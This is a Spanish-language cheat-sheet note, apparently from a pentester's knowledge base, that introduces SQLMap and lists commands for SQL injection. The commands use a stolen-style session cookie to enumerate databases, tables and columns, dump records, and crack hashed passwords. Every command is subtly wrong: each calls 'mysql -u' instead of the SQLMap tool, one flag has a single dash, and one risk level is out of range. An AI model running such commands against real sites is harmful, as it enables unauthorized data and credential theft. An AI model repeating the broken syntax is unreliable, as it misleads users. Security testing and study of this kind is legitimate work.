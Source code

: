 ----
- Tags: #tools #automatic
---

# ¿ Que es **SQLMap** ? 

**SQLMap** es una herramienta de pruebas de penetración de código abierto que se utiliza para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web. Esta herramienta se basa en un motor de inyección SQL altamente automatizado que puede detectar y explotar una amplia variedad de vulnerabilidades de inyección SQL en diferentes sistemas de gestión de bases de datos. 

SQLMap se utiliza para probar la seguridad de aplicaciones web que utilizan bases de datos, identificando y aprovechando vulnerabilidades de inyección SQL. Para hacer esto, SQLMap realiza una exploración automatizada de la aplicación web, identifica las vulnerabilidades de inyección SQL y explota estas vulnerabilidades para extraer información confidencial que podría ser utilizada por un atacante malintencionado para comprometer la seguridad de la aplicación. 

Al utilizar SQLMap, lo profesionales de seguridad pueden identificar y corregir las vulnerabilidades de inyección SQL en sus aplicaciones web, lo que mejora significativamente la seguridad de estas aplicaciones. También pueden utilizar SQLMap para realizar pruebas de penetración en aplicaciones web de terceros y así evaluar su nivel de seguridad que trabaja en pruebas de penetración de aplicaciones web y en la detección de vulnerabilidades de inyección SQL.

----

# Automatización 

Por ejemplo, podríamos estar logeados en una página la cual es vulnerable a [[SQLI - (SQL Injections)]] y hacer uso de **SQLMap** para automatizar las inyecciones de manera automatica: 

## Listar DataBases de una URL con cookies: 
```bash
mysql -u http://{url} --dbs --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka"
```

## Aclarar el gestor de base de datos:
```bash
mysql -u http://{url} --dbs --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -dbms mysql 
```

## Aceptar por default las preguntas que realiza SQLMap: 
```bash
mysql -u http://{url} --dbs --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" --batch 
```

## Enumerar tablas de una base de datos: 
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -D {db_name} --tables
```

## Enumerar columnas de una tabla:
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -D {db_name} -T {table_name} --columns
```

## Enumerar registros de una columna: 
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -D {db_name} -T {table_name} -C {colum1},{column2} --dump
```
#### Si se piden listar registros de contraseñas y estas están hasheadas, se comenzara un proceso de fuerza bruta para intentar crackear dichas credenciales. 

## Enumerar de manera más profunda: 
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" --dbms mysql --risk 4 --level 5
```
